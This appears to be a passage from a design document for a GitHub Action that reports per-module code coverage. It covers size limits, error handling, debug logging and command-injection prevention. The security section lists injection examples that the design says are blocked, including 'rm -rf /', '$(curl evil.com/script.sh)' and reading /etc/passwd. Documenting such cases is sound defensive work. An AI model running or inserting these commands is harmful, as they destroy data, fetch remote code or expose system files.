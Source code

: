 **Size Limits:**
- GitHub API comment size limit: ~65,536 characters
- If report exceeds limit (e.g., 100+ modules):
  - Action logs warning
  - Consider using `ignore-modules` to reduce size
  - Future: Collapsible sections for large reports (Phase 4)

## Error Handling

### Fatal Errors (Fail Action)

1. **Invalid threshold JSON:** Cannot parse `thresholds` input
2. **Discovery command failed:** Command exits with non-zero code
3. **No modules found:** Discovery returns empty list
4. **Coverage below minimum:** Overall coverage < `min-coverage`

### Warnings (Log but Continue)

1. **Module coverage file not found:** Expected for parent modules, test-only modules
2. **Invalid XML structure:** File exists but malformed
3. **Missing INSTRUCTION counter:** XML valid but missing expected data
4. **PR comment failed:** Network error or permission issue (don't fail action)

### Debug Mode

When `debug: 'true'`:
- Log discovery command output
- Log each module's coverage file path
- Log threshold matching decisions
- Log module type extraction
- Log parsed XML structure

## Security Considerations

### 1. Command Injection Prevention

**Risk:** Malicious `discovery-command` input could execute arbitrary code.

**Mitigation:**
- Use `@actions/exec.exec()` which does NOT use shell by default
- Command and arguments parsed directly (no shell interpretation)
- Shell metacharacters are treated as literal strings (not executed)

**What's blocked:**
```yaml
# ❌ These patterns do NOT work (shell features disabled):
discovery-command: './gradlew projects | grep feature'  # Pipe ignored
discovery-command: './gradlew projects && rm -rf /'     # && treated as argument
discovery-command: '$(curl evil.com/script.sh)'         # $() not expanded
discovery-command: '`cat /etc/passwd`'                  # Backticks not expanded
discovery-command: './gradlew projects > /tmp/out'      # Redirect ignored
```
